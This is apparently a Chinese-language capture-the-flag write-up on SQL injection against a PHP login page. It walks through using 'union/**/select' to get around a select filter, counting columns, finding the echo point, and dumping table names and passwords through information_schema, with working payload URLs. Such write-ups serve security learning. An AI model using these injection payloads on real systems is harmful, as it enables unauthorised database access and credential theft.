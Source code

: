 考察知识点：

1.union/**/select sql注入



1. 过滤测试

![](images/2F2A912D6205492A8BB43F6C8712D80Bclipboard.png)

虽然select被过滤但是union/**/select还可以使用



2.确定字段数

构造：

```javascript
?username=admin&password=admin'union/**/select+null,null,null#
```

当null的数量为四时，报错，所以查询数据库表有四个字段



3.确定回显点

![](images/6F8CD6FE04AA4D669B7F1B8D70A0217Fclipboard.png)

用户密码可用作回显点



4. 暴库

![](images/4B44CC4AFE5044CF9D38CAD2F8F551DAclipboard.png)



5.爆表

```javascript
/check.php?username=admin&password=admin'union/**/select+null,null,group_concat(table_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database();%23
```



![](images/136122CFDB2F45E5A67310A0666431BDclipboard.png)



6. 爆字段内容

```javascript
?username=admin&password=admin'union/**/select+null,null,group_concat(password)/**/from/**/l0ve1ysq1;%23
```



![](images/8A268906AC3D448CBA8F49C088F32D90clipboard.png)

